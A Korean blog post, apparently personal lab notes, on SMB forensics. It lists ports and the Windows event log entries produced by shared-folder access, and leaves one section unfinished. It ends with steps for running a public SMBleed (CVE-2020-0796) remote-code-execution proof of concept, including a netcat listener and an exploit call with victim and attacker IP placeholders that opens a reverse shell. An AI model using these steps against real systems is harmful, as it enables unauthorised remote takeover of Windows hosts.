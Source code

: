 ```yaml
---
title: SMB
date: 2023-05-01 00:53:00 +0900
categories: [Windows]
tags: [Windows] 
---
```


**SMB(Servr Message Block)란**   
    포트번호 : 137(UDP), 138(UDP), 139(TCP), 445(TCP)   
    적용 대상 : Windows Server 2008 ~   
    2017년도 SMB 원격코드실행 취약점(MS17-010)을 악용한 랜섬웨어 : WannaCry 

***SMB 테스트해보S기***    

|IP|OS|설명|   
|---|---|---|   
|192.168.20.1|Windows 11|공격PC|   
|192.168.20.136|Windows 07|피해PC, B-pc|   


**1. 공유폴더를 통해 파일 수정, 파일 끌올, 파일 삭제 시**     
- Windows 탐색기에서 '\\B-pc' 입력하여 공유폴더에 연결할 때, 이벤트로그에 특정 이벤트는 기록되지 않았다. 이는 추가적인 설정이 필요한 바로 보인다.   
- 공유폴더에 접근하여 파일 수정, 파일 끌어올리기 시 아래와 같이 이벤트로그가 기록된다. 
- 추가적으로 MFT 내에서 파일 생성 이력이 확인되었다.
```shell
(Security.evtx) 4624 : 로그온 -> (Security.evtx) 4634 : 로그오프
```
{: .nolineno }
![(smb)_1.png](/assets/img/(smb)_1.png)
![(smb)_2.png](/assets/img/(smb)_2.png)
![(smb)_3.png](/assets/img/(smb)_3.png)



**2. 공유폴더를 통한 파일 실행 시**
- 







**SMBleed**
POC : https://github.com/ZecOps/CVE-2020-0796-RCE-POC
1. calc_target_offsets.bat 실행하여 대상 Windows 버전의 오프셋 결정
2. 기본 오프셋을 bat의 출력으로 바꿔 SMBleedingGhost.py 수정
3. netcat 실행 :: nc -lvnp [attacker_port]
4. SMBleedingGhost.py [victim_ip] [attacker_ip] [attacker_port]

